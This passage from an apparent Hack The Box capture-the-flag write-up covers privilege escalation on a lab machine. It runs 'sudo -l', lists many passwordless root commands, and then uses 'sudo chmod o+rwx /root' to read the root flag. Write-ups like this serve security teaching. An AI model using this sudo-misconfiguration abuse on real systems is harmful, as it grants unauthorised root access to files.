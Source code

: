 ![](https://miro.medium.com/max/60/1*7VIfyBV6EjSFA-_ULdGvvw.png?q=20)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/91.jpg)

- Next, we need to escalate our privileges to root. Run the following command to view the list of allowed sudo commands the user can run.

```bash
sudo -l
```

We get back the following result.

```bash
User asterisk may run the following commands on this host:  
(root) NOPASSWD: /sbin/shutdown  
(root) NOPASSWD: /usr/bin/nmap  
(root) NOPASSWD: /usr/bin/yum  
(root) NOPASSWD: /bin/touch  
(root) NOPASSWD: /bin/chmod  
(root) NOPASSWD: /bin/chown  
(root) NOPASSWD: /sbin/service  
(root) NOPASSWD: /sbin/init  
(root) NOPASSWD: /usr/sbin/postmap  
(root) NOPASSWD: /usr/sbin/postfix  
(root) NOPASSWD: /usr/sbin/saslpasswd2  
(root) NOPASSWD: /usr/sbin/hardware\_detector  
(root) NOPASSWD: /sbin/chkconfig  
(root) NOPASSWD: /usr/sbin/elastix-helper
```

- Oh boy, so many security misconfigurations! For this solution, let’s exploit the chmod command.

- Run the following command to give everyone rwx permissions on the /root directory.

```bash
sudo chmod o+rwx /root
```

Now we can view the root.txt flag.

![](https://miro.medium.com/max/60/1*8_RP2_tUaZYeEUtTbHrXyA.png?q=20)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/92.jpg)
---


![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/93.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/94.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/95.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/96.jpg)

